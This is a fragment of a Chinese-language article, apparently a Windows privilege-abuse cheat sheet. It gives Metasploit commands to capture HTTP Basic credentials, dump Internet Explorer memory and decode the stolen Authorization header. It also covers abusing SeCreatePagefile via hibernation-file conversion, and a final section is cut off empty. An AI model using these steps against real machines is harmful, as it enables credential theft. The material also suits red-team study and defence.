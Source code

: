 方法:

1.

In Metasploit (msf > prompt) 输入: `use auxiliary/server/capture/http_basic`

In Metasploit (msf > prompt) 输入: `set uripath x`

In Metasploit (msf > prompt) 输入: `run`

2.

`在[taskmgr](https://zhida.zhihu.com/search?content_id=236623600&content_type=Article&match_order=1&q=taskmgr&zd_token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJ6aGlkYV9zZXJ2ZXIiLCJleHAiOjE3NjAwNzgzMDIsInEiOiJ0YXNrbWdyIiwiemhpZGFfc291cmNlIjoiZW50aXR5IiwiY29udGVudF9pZCI6MjM2NjIzNjAwLCJjb250ZW50X3R5cGUiOiJBcnRpY2xlIiwibWF0Y2hfb3JkZXIiOjEsInpkX3Rva2VuIjpudWxsfQ.gZ1lvfj_rBPNodbcMaPMGsVAz-vY7KwKHhNfENXE-YA&zhida_source=entity)中，右键单击“Image Name”栏中的“iexplore.exe”`

`并从弹出菜单中选择“创建转储文件”.`

3.

`strings /root/Desktop/iexplore.DMP | grep "Authorization: Basic"`

选择复制 Base64 编码字符串

在命令提示符下键入：`echo -ne [Base64 String] | Base64-d`

### **Abusing via SeCreatePagefile**

域：No

Local Admin: Yes

操作系统: Windows

类型: Abuse Privilege

方法:

1.

`HIBR2BIN /PLATFORM X64 /MAJOR 6 /MINOR 1 /INPUT hiberfil.sys /OUTPUT uncompressed.bin`

  

批注：[https://github.com/MagnetForensics/Hibr2Bin](https://link.zhihu.com/?target=https%3A//github.com/MagnetForensics/Hibr2Bin)

### **Abusing via SeSystemEnvironment**

域：No

Local Admin: Yes

操作系统: Windows

类型: Abuse Privilege

方法:

1.
